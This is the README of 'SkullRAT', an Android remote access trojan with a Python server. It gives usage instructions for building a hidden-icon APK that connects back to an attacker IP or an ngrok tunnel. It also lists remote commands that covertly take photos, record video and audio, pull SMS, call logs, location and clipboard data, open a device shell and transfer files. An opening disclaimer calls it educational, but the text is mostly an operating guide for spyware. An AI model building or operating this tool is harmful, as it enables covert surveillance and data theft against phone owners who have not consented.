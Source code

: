 **Disclaimer** : This software is meant for educational purposes only. I don't feel responsible for any malicious use of the app.
# SkullRAT 

[![MIT License](https://img.shields.io/badge/license-MIT-blue.svg)](https://opensource.org/licenses/MIT) 
[![Twitter Follow](https://img.shields.io/twitter/follow/lewdhak?label=Follow&style=social)](https://twitter.com/lewdhak)
[![GitHub followers](https://img.shields.io/github/followers/lewdhak?label=Follow&style=social)](https://github.com/lewdhak)

SkullRAT is a tool designed to give the control of the android system remotely and retrieve informations from it. SkullRAT is a client/server application developed in Java Android for the client side and the Server is in Python.

##### SkullRAT will work on device from Android 4.1 (Jelly Bean) to Android 9.0 (Oreo) (API 16 to API 28)

> SkullRAT also works on Android 10 (Q) but some of the interpreter command will be unstable. 


## Prerequisites
SkullRAT requires Python (3.6-3.8) and JAVA 8 (or Android Studio)

## Installation
```
git clone https://github.com/lewdhak/SkullRAT.git
pip install -r requirements.txt
```
#### Note: 
While cloning the repository using Git bash on windows, you may get the following error:
> error: unable to create file \<filename>: Filename too long

This is because the Git has a limit of 4096 characters for a filename, except on Windows when Git is compiled with msys. It uses an older version of the Windows API and there's a limit of 260 characters for a filename. 

You can circumvent this by setting `core.longpaths` to `true`.

> git config --system core.longpaths true

You must run Git bash with administrator privileges. 

## Usage (Windows and Linux)

* To get the control panel of the app dial `*#*#1337#*#*` (For now it has only two options `Restart Activity` and `Uninstall`)
> Note: In order to use this feature in some devices you need to enable the option `display pop-up windows running in background` from the settings.

### Available Modes
* `--build` - for building the android apk 
* `--ngrok` - for using ngrok tunnel (over the internet)
* `--shell` - getting an interactive shell of the device

### `build` mode

```
Usage:
  python skullRAT.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "lewd.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

```
Usage:
  python skullRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```

Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python skullRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  

Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```

## Examples

* To build the apk using ngrok which will also set the listner:
```python skullRAT.py --build --ngrok -o evil.apk```

* To build the apk using desired ip and port:
```python skullRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk```

* To get the interpreter:
```python skullRAT.py --shell -i 0.0.0.0 -p 8000```

## TODO
* ~~Ngrok support~~
* Set up multi client
* Add screenshot command


## License
SkullRAT is licensed under MIT license take a look at the [LICENSE](LICENSE) for more information.


